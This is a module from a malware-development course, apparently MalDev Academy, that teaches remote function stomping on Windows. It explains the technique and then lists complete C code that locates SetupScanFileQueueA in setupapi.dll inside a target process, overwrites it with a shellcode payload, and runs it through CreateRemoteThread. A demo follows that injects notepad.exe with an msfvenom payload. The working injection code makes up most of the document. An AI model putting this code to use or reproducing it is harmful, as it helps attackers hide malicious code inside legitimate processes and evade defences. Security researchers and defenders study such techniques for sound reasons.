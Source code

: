 45. Remote Function Stomping Injection[**45. Remote Function Stomping Injection**](https://maldevacademy.com/modules/45)
==================================================================================

**Remote Function Stomping Injection**
--------------------------------------

### **Introduction**

The previous module introduced function stomping on the local address space of the process. In this module, the same implementation logic will be used to inject code into a remote process.

### **Remote Function Stomping**

The DLLs that implement Windows API functions are shared across all processes that use them, therefore, the functions within the DLL have the same address in each process. However, the address of the DLL itself will differ between processes due to the different virtual address spaces. This means that while the address of the target function remains constant across different processes, the DLL which exports these functions may not be the same.

For example, two processes, A and B, will be sharing `Kernel32.dll` but the address of the DLL may be different within each process due to [Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization). However, `VirtualAlloc`, which is exported from `Kernel32.dll`, will have the same address in both processes.

It is important to note that in order for function stomping to be performed remotely, the DLL that exports the targeted function must already be loaded into the target process. For example, to target the `SetupScanFileQueueA` function in a remote function, which is exported from `Setupapi.dll`, that DLL must already be loaded into the target process. If the remote process does not have `Setupapi.dll` loaded, the `SetupScanFileQueueA` function will not be present in the target process, resulting in an attempt to write to an address that does not exist.

### **Remote Function Stomping Code**

The following code is similar to the local function stomping code, however, it uses different WinAPI functions to carry out code injection.


```
#define		SACRIFICIAL_DLL            "setupapi.dll"#define		SACRIFICIAL_FUNC           "SetupScanFileQueueA"// ...

BOOL WritePayload(HANDLE hProcess, PVOID pAddress, PBYTE pPayload, SIZE_T sPayloadSize) {

	DWORD	dwOldProtection            = NULL;
	SIZE_T	sNumberOfBytesWritten      = NULL;

	if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtectEx [RW] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!WriteProcessMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten) || sPayloadSize != sNumberOfBytesWritten){
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		printf("[!] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}

	if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtectEx [RWX] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}


int wmain(int argc, wchar_t* argv[]) {

	HANDLE		hProcess		= NULL,
		        hThread			= NULL;
	PVOID		pAddress		= NULL;
	DWORD		dwProcessId		= NULL;

	HMODULE		hModule			= NULL;

	if (argc < 2) {
		wprintf(L"[!] Usage : \"%s\" <Process Name> \n", argv[0]);
		return -1;
	}

	wprintf(L"[i] Searching For Process Id Of \"%s\" ... ", argv[1]);
	if (!GetRemoteProcessHandle(argv[1], &dwProcessId, &hProcess)) {
		printf("[!] Process is Not Found \n");
		return -1;
	}
	printf("[+] DONE \n");
	printf("[i] Found Target Process Pid: %d \n", dwProcessId);



	printf("[i] Loading \"%s\"... ", SACRIFICIAL_DLL);
	hModule = LoadLibraryA(SACRIFICIAL_DLL);
	if (hModule == NULL) {
		printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
		return -1;
	}
	printf("[+] DONE \n");


	pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);
	if (pAddress == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return -1;
	}
	printf("[+] Address Of \"%s\" : 0x%p \n", SACRIFICIAL_FUNC, pAddress);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	printf("[i] Writing ... ");
	if (!WritePayload(hProcess, pAddress, Payload, sizeof(Payload))) {
		return -1;
	}
	printf("[+] DONE \n");



	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();

	hThread = CreateRemoteThread(hProcess, NULL, NULL, pAddress, NULL, NULL, NULL);
	if (hThread != NULL)
		WaitForSingleObject(hThread, INFINITE);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;
}



```
### **Demo**

Targeting `Notepad.exe` process.




[![](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-109445015-30dbf6a1-2ece-4d4c-a304-a9fc12f8f231.png)](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-109445015-30dbf6a1-2ece-4d4c-a304-a9fc12f8f231.png)Retrieving `SetupScanFileQueueA`'s address.

[![](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-209445031-a0b9b825-93f8-429c-a6eb-5dc4e276e2df.png)](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-209445031-a0b9b825-93f8-429c-a6eb-5dc4e276e2df.png)The original bytes of the `SetupScanFileQueueA` function.

[![](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-309445021-d9ccc1af-1eb5-4e9e-ba62-8f67b3442c90.png)](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-309445021-d9ccc1af-1eb5-4e9e-ba62-8f67b3442c90.png)Replacing the function's bytes with the Msfvenom calc payload.

[![](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-409445036-d03ad29c-8eb0-4b5a-b166-bd30458dbe1a.png)](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-409445036-d03ad29c-8eb0-4b5a-b166-bd30458dbe1a.png)Running the payload.

[![](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-509445038-6bb55397-dbac-4546-b1d7-2a7be0744c8a.png)](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-509445038-6bb55397-dbac-4546-b1d7-2a7be0744c8a.png)